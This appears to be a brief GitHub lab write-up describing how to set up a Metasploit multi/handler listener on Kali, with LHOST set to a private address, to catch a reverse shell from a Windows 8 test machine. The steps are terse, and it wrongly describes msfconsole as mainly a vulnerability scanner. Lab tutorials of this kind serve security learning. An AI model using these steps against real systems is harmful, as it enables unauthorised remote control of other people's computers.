 ### STEP:

Check your **IP ADDRESS** for both your kali and your windows8 system ensure to ping to both devices and get a response, go to your kali and start your **POSTGRESQL START** and also your **MSFDB INIT** service.


- **START YOUR MSFCONSOLE**: it primary a command line used to scan target system for known vulnerabilities. 

- **SEARCH MULTI/HANDLER**.

- **USE 7**.

- **SHOW PAYLOADS**.

- **SET PAYLOAD 1315**.

- **SHOW OPTIONS**.

- **SET LHOST TO YOUR IP ADDRESS 192.168.0.15**.

- **SHOW OPTIONS.**

- **EXPLOIT -j**

- **RUN**

TYPE HELP FOR OTHER OPTIONS ON YOUR WINDOWS SYSTEM.

### contribute:
feel free to share your own experience 

### MICHAEL22



